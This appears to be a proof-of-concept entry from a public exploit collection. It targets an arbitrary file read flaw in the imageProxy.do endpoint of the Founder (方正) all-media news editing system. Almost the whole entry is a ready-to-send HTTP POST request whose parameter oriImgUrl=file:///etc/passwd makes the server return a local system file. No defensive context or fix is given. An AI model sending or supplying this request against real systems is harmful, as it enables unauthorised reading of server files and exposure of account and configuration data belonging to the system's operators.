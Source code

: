 # fz_imageProxy.do_fileread

from: https://github.com/wy876/POC/blob/main/%E6%96%B9%E6%AD%A3%E5%85%A8%E5%AA%92%E4%BD%93/%E6%96%B9%E6%AD%A3%E7%95%85%E4%BA%AB%E5%85%A8%E5%AA%92%E4%BD%93%E6%96%B0%E9%97%BB%E9%87%87%E7%BC%96%E7%B3%BB%E7%BB%9FimageProxy.do%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
product: 方正畅享全媒体新闻采编系统

```
POST /newsedit/outerfotobase/imageProxy.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

oriImgUrl=file:///etc/passwd
```
